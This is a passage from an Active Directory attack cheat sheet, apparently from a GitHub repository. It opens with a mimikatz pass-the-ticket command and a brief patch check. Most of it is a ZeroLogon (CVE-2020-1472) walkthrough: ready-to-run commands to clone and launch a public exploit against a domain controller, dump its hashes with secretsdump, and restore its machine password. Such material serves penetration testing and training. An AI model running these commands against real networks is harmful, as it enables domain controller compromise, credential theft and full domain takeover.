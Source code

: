 Then use `mimikatz` to load the ticket.

```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

#### Mitigations

- Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780

### ZeroLogon

> CVE-2020-1472

White Paper from Secura : https://www.secura.com/pathtoimg.php?id=2055

Exploit steps from the white paper

1.  Spoofing the client credential
2.  Disabling signing and sealing
3.  Spoofing a call
4.  Changing a computer's AD password to null
5.  From password change to domain admin
6.  :warning: reset the computer's AD password in a proper way to avoid any Deny of Service

- `cve-2020-1472-exploit.py` \- Python script from [dirkjanm](https://github.com/dirkjanm)
    
    ```powershell
      # Check (https://github.com/SecuraBV/CVE-2020-1472)
      proxychains python3 zerologon_tester.py DC01 172.16.1.5
      
    $ git clone https://github.com/dirkjanm/CVE-2020-1472.git
    
    # Activate a virtual env to install impacket
    $ python3 -m venv venv
    $ source venv/bin/activate
    $ pip3 install .
      
    # Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
    proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5
    
    # Find the old NT hash of the DC
    proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'
    
    # Restore password from secretsdump 
    # secretsdump will automatically dump the plaintext machine password (hex encoded) 
    # when dumping the local registry secrets on the newest version
    python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
    deactivate
    ```
    
